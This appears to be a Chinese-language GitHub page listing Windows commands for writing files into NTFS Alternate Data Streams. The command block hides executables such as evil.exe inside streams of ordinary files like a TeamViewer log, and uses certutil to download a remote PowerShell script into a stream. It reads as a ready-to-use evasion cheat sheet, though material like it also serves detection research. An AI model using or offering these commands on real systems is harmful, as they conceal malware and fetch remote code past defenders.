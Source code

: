 ![2](NTFS_27.jpg)   
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>

# **ADS 添加 导出 执行方法清单**
参考:[从ADS中执行程序的方法汇总](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)
```
###Add content to ADS###
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
findstr /V /L W3AllLov3DonaldTrump c:\ADS\procexp.exe > c:\ADS\file.txt:procexp.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
print /D:c:\ads\file.txt:autoruns.exe c:\ads\Autoruns.exe
reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg
regedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
```